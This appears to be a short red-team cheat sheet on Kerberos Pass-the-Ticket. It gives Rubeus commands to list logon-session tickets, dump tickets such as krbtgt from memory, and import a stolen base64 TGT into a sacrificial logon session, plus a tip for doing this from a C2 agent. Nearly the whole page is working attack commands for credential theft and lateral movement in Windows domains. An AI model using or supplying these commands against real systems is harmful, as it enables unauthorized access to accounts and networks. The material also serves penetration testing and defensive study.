 # Pass-the-Ticket




## Rubeus

Show Kerberos tickets in all logon sessions if elevated (otherwise it will only show tickets in current logon session):

```
PS > .\Rubeus.exe triage
```

Extract the tickets from memory:

```
PS > .\Rubeus.exe dump [/service:krbtgt] [/luid:0x1337] /nowrap
```

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) and import the TGT into its logon session:

```
PS > .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
PS > .\Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#pass-the-ticket) instead of using `/show` option.
{% endhint %}

{% hint style="success" %}
You can also extract and reuse TGS tickets with this technique.
{% endhint %}
